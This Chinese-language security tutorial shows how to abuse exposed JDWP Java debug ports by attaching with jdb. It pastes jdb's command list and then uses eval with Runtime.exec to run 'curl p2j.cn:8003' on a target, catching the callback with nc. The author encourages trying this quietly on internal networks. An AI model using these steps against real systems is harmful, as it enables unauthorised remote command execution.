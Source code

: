 # JDWP攻击示例

JPDA(`Java Platform Debugger Architecture`) 是 Java 平台调试体系结构的缩写，通过 JPDA 提供的 API，开发人员可以方便灵活的搭建 Java 调试应用程序。

大概在2015年左右用tangscan扫到了很几次jdwp服务端口，当时只是简单的测试过这个服务。

这个jdwp服务提供来对java程序调试的功能，只要有程序启动时使用了jdwp参数且端口绑定在内网或者共网上时候我们就可以利用这个服务来执行java代码片段弹shell。比较典型的有tomcat启动的时候如果是以jpda方式启动的话就会启动一个8000端口用于远程调试。

<img src="../../images/20190918164155_580.png" alt="img" style="zoom:50%;" />



假设我们需要远程调试一段Java程序，如Test.java的main方法：

<img src="../../images/20190918161911_104.png" alt="img" style="zoom:50%;" />

如果要远程调试我们就需要使用到远程调试参数，我们使用IDEA远程调试的时候会提示我们配置如下参数：

<img src="../../images/20190918161657_473.png" alt="img" style="zoom:50%;" />

所以我们只需要在执行:java Test 之前添加我们的调试参数即可。

首先在内网找一个测试环境，让他帮我们调试下这个Test.java，在启动的时候加上如下参数：

java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=*:8003 Test

如下图：

<img src="../../images/20190918162359_476.png" alt="img" style="zoom:50%;" />

测试环境IP是：192.168.88.203，于是我们使用java自带的jdb(Java调试工具)来连接他的8003端口。

<img src="../../images/20190918162732_784.png" alt="img" style="zoom:50%;" />

jdb自带了很多命令，可以通过命令来查看各种调试信息，详情可以自己执行help命令查看。

```bash
** 命令列表 **
connectors                -- 列出此 VM 中可用的连接器和传输
 
run [class [args]]        -- 开始执行应用程序的主类
 
threads [threadgroup]     -- 列出线程
thread-- 设置默认线程
suspend [thread id(s)]    -- 挂起线程 (默认值: all)
resume [thread id(s)]     -- 恢复线程 (默认值: all)
where [| all] -- 转储线程的堆栈
wherei [| all]-- 转储线程的堆栈, 以及 pc 信息
up [n frames]             -- 上移线程的堆栈
down [n frames]           -- 下移线程的堆栈
kill-- 终止具有给定的异常错误对象的线程
interrupt-- 中断线程
 
print-- 输出表达式的值
dump-- 输出所有对象信息
eval-- 对表达式求值 (与 print 相同)
set=-- 向字段/变量/数组元素分配新值
locals                    -- 输出当前堆栈帧中的所有本地变量
 
classes                   -- 列出当前已知的类
class-- 显示已命名类的详细资料
methods-- 列出类的方法
fields-- 列出类的字段
 
threadgroups              -- 列出线程组
threadgroup-- 设置当前线程组
 
stop in.[(argument_type,...)]
                          -- 在方法中设置断点
stop at:-- 在行中设置断点
clear.[(argument_type,...)]
                          -- 清除方法中的断点
clear:-- 清除行中的断点
clear                     -- 列出断点
catch [uncaught|caught|all]|-- 出现指定的异常错误时中断
ignore [uncaught|caught|all]|-- 对于指定的异常错误, 取消 'catch'
watch [access|all].-- 监视对字段的访问/修改
unwatch [access|all].-- 停止监视对字段的访问/修改
trace [go] methods [thread]
                          -- 跟踪方法进入和退出。
                          -- 除非指定 'go', 否则挂起所有线程
trace [go] method exit | exits [thread]
                          -- 跟踪当前方法的退出, 或者所有方法的退出
                          -- 除非指定 'go', 否则挂起所有线程
untrace [methods]         -- 停止跟踪方法进入和/或退出
step                      -- 执行当前行
step up                   -- 一直执行, 直到当前方法返回到其调用方
stepi                     -- 执行当前指令
下一步                      -- 步进一行 (步过调用)
cont                      -- 从断点处继续执行
 
list [line number|method] -- 输出源代码
use (或 sourcepath) [source file path]
                          -- 显示或更改源路径
exclude [, ... | "none"]
                          -- 对于指定的类, 不报告步骤或方法事件
classpath                 -- 从目标 VM 输出类路径信息
 
monitor-- 每次程序停止时执行命令
monitor                   -- 列出监视器
unmonitor <monitor#>      -- 删除监视器
read-- 读取并执行命令文件
 
lock-- 输出对象的锁信息
threadlocks [thread id]   -- 输出线程的锁信息
 
pop                       -- 通过当前帧出栈, 且包含当前帧
reenter                   -- 与 pop 相同, 但重新进入当前帧
redefine-- 重新定义类的代码
 
disablegc-- 禁止对象的垃圾收集
enablegc-- 允许对象的垃圾收集
 
!!                        -- 重复执行最后一个命令-- 将命令重复执行 n 次
#-- 放弃 (无操作)
help (或 ?)               -- 列出命令
version                   -- 输出版本信息
exit (或 quit)            -- 退出调试器: 带有程序包限定符的完整类名: 带有前导或尾随通配符 ('*') 的类名: 'threads' 命令中报告的线程编号: Java(TM) 编程语言表达式。
支持大多数常见语法。
 
可以将启动命令置于 "jdb.ini" 或 ".jdbrc" 中
位于 user.home 或 user.dir 中</monitor#>
```

因为他使用的是暂停模式，所以我们可以直接在jdb中执行stepi命令来执行当前指令，否则我们需要使用stop 命令来设置断点了，然后我们就可以使用eval或者print指令来调用Runtime去执行系统命令：`eval java.lang.Runtime.getRuntime().exec("curl p2j.cn:8003").getInputStream())`

<img src="../../images/20190918163235_140.png" alt="img" style="zoom:50%;" />

我们需要在远程服务器上nc下8003端口即可接收受攻击的机器curl过来的请求：

<img src="../../images/20190918163600_499.png" alt="img" style="zoom:50%;" />

也就是说我们可以在别人debug的时候使用jdb attach进去然后悄无声息的弹个shell回来玩了，这种场景在内网通常是比较常见的遇到这个服务的时候记得试试吧。

jdb参考资料：

[http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jdb.html)

https://www.javatpoint.com/jdb-expression

https://www.tutorialspoint.com/jdb/jdb_quick_guide.htm
